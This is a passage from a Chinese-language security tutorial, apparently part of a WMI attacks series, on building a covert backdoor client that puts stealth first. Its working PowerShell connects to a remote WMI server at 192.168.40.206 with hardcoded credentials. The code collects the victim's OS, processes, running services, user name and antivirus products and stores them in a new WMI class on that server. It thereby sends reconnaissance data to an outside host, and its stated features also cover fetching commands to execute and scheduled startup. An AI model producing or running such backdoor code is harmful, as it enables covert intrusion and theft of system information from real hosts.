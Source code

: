 作为后门，所以把隐蔽性放在首位

**Clinet需要满足如下功能**：

```
上传信息至服务器
获取指令执行
定时启动

```

0x04 功能实现
=========

* * *

1、Client将本机信息发送至Server
----------------------

《WMI attacks-3、存储payload》提到，可将数据存储于此，不会留下文件，实际位于硬盘上的一个复杂的数据库中(objects.data)

**设计思路**：

```
Client获取主机配置信息-连接远程服务器-保存在远程服务器
Server读取信息

```

**实现**：

（1）Client获取主机配置信息-连接远程服务器-保存在远程服务器

Client端Powershell代码如下：

```
#连接192.168.40.206
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'a'
$Options.Password = 'testtest'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.40.206\root\cimv2'
$Connection.Options = $Options
$Connection.Connect()
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
#新建类名
$EvilClass['__CLASS'] = 'Win32_UserInfo'
$EvilClass.Properties.Add('IP19216840208', [Management.CimType]::String, $False)
#获取主机配置信息
$GetOS=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_OperatingSystem 
$GetProcess=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Process
$GetService=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Service -Filter "State='Running'"
$GetUser=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_ComputerSystem
$GetAV=Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct
#注：Powershell中换行符为`n
$EvilClass.Properties['IP19216840208'].Value =           $GetUser.UserName+"`n"+"OS:"+$GetOS.Caption+";"+$GetOS.OSArchitecture+"`n"+"AntiVirusProduct:"+ $GetAV.displayName+"`n"+"Process:"+"`n"+$GetProcess.Name+"`n"+"Service Start:"+"`n"+$GetService.Name
#存储
$EvilClass.Put()

```
